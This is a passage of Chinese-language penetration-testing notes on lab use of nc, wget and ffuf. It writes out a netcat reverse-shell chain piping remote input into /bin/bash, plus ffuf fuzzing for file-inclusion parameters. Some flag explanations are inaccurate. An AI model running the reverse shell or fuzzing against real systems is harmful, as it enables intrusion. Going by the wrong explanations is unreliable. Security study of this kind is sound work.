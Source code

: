         ​	表示和`192.168.195.170`建立连接,并将`file`文件进行传输。
    
    4. nc 192.168.195.170 
    
        ​	就是和该ip建立一个tcp的通讯，这个通讯是可以有多种方式的。是连续的，是connect的。
    
        
    
    5. nc 192.168.195.170 3333 | /bin/bash | nc 192.168.170 4444
    
        1. nc 192.168.195.170 3333| /bin/bash
    
            `nc` 将尝试建立一个 TCP 连接到目标主机的默认端口（通常是 80 或 443）。这样，你可以与目标主机进行简单的网络通信，发送和接收数据。这时候本机就可以同`192.168.195.170`（kali）进行tcp的通讯，是可以持续连接的。也解释了为什么可以输入的个命令连续的测试。
    
            这样192.168.195.170（kali）的通讯信息会直接传入到  /bin/bash中。
    
        2. /bin/bash | nc 192.168.195.170 4444
    
            那么就可以将 `shell`的执行返回内容在次通过另一个端口返回给 192.168.195.170来展示。
    
    

### wget

1. what?

    是一个用于从==Web服务器下载文件==的命令行工具。它支持下载通过HTTP，HTTPS和FTP协议提供的文件，可以==递归下载整个目录==，支持断点续传等功能。wget通常用于从网站下载文件或在Linux系统中通过命令行下载软件包。在渗透测试和安全评估中，wget也可用于下==载利用和漏洞利用脚本，以及下载可能包含敏感信息的文件和文档。==

2. 具体实例

    1. wget url :即可





### ffuf

1. what?

    ==ffuf是一个快速的web路径和内容发现工具==，可以使用自定义字典和过滤规则来帮助你==发现隐藏的路径和文件==，进而进行漏洞扫描或其他安全测试。它可以使用多线程和协程的方式进行请求，速度很快，同时还可以支持代理，Cookies，HTTP认证等功能。在Kali中，ffuf已经被预装，并且支持常用的web服务发现和扫描。

2. 具体实例

    1. `ffuf -c -w ./dict.txt -u 'http://192.168.198.12?FUZZ=/etc' -fs 0,8`
        1. `-c`：表示对HTTP响应代码进行自动匹配和过滤，只显示有效的响应。
        2. `-w ./dict.txt`：指定字典文件，用于枚举URL路径
        3. `-u 'http://192.168.198.12?FUZZ=/etc'`：指定目标URL，其中 ==`FUZZ`是ffuf的关键词，代表需要替换的位置，这里用它替换了URL路径的一部分，即 `/etc`。ffuf会把字典中的每个元素替换到 `FUZZ` 位置并访问相应的URL。==
        4. `-fs 0,8`：过滤响应大小，这里表示只显示响应大小在0到8字节之间的结果。这个参数可以帮助过滤掉不必要的响应。==一般是初次扫过后，大致判断无用的响应后的大小再过滤==。
    2. `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:PARAM -w /root/桌面/6/ffuf_dic:VAL -u http://192.168.195.171/secret/evil.php?PARAM=VAL -fs 0`
        1. `-w /dict:NAME`：这里面的NAME是对字典进行重命名的。



### dirsearch

1. what?
